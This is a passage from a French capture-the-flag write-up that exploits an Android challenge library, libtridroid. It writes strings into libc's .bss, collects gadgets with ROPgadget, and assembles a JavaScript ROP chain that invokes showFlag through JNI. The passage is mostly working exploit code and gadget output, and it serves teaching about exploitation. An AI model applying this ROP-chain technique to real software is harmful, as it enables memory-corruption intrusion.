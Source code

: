 La `.bss` de libtridroid aurait été un bon choix mais elle est malheureusement trop petite. Nous avons donc décidé de regarder la `.bss` de la libc à la place. Cette fois-ci, elle est suffisamment grande pour que nous choisissions des adresses arbitraires en son sein : `0xD9510` et `0xD9530`.

A `0xD9510` nous allons écrire `"()V\x00"` et à `0xD9530` `"showFlag\x00"` :

```javascript
// write "showFlag" in libc
write(libc_base + 0xD9530, '73686F77466C616700');
// write "()V" in libc
write(libc_base + 0xD9510, '28295600');
```

### Construction de la ROP chain

Maintenant que nous avons tout ce qui est nécessaire pour construire la ROP chain, il ne nous reste plus qu'à trouver des gadgets.

D'après les conventions d'appel, les 4 premiers agruments sont stockés dans `RDI`, `RSI`, `RDX` et `RCX` respectivement.

Pour cela, nous avons utilisé [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) :

```
ROPgadget --binary libc.so > gadgets.txt
```

Heureusement, il existe des gadgets simples pour configurer nos registres :

```
$ grep ": pop rdi ; ret$" gadgets.txt 
0x0000000000042c92 : pop rdi ; ret
$ grep ": pop rsi ; ret$" gadgets.txt 
0x0000000000042d38 : pop rsi ; ret
$ grep ": pop rdx ; ret$" gadgets.txt 
0x0000000000046175 : pop rdx ; ret
$ grep ": pop rcx ; ret$" gadgets.txt 
0x0000000000042e58 : pop rcx ; ret
```

La ROP chain finale est la suivante :

```javascript
// 0x0000000000042e58 : pop rcx ; ret
pop_rcx = libc_base + 0x42e58
// 0x0000000000046175 : pop rdx ; ret
pop_rdx = libc_base + 0x46175
// 0x0000000000042c92 : pop rdi ; ret
pop_rdi = libc_base + 0x42c92
// 0x0000000000042d38 : pop rsi ; ret
pop_rsi = libc_base + 0x42d38
// 0x0000000000042af0 : ret
ret = libc_base + 0x42af0

rop = pack64(pop_rcx)
rop += pack64(libc_base + 0xD9510) // ()V
rop += pack64(pop_rdx)
rop += pack64(libc_base + 0xD9530) // showFlag
rop += pack64(pop_rsi)
rop += pack64(this_ptr)
rop += pack64(pop_rdi)
rop += pack64(JNI_env)
rop += pack64(ret) // for stack alignment
rop += pack64(invoke_addr)
```
